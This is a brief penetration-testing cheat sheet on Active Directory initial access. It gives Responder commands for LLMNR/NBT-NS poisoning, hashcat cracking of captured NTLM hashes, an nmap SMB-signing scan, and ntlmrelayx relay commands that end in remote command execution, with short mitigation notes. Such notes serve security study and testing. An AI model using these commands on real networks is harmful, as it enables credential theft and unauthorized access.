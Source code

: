 # AD Initial attack vector

## LLMNR poisoning

<figure><img src=".gitbook/assets/Capture d&#x27;écran 2024-05-06 003240.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface> -dwPv
# crack hash 
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy

```

## SMB Relay

* SMB Signing disabled on target

```bash
nmap --script=smb2-security-mode.nse -p445 <ip>/24
# work if message signing is enabled but not required
# In /etc/responder/Responder.conf disable smb and http -> Not capture its but relay its

# create target.txt and put ip addresses

responder -I <interface> -dwPv 

# ntmrelayx for relay hash
sudo ntlmrelayx.py -tf targets.txt -smb2support
# after intercepted
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"


```

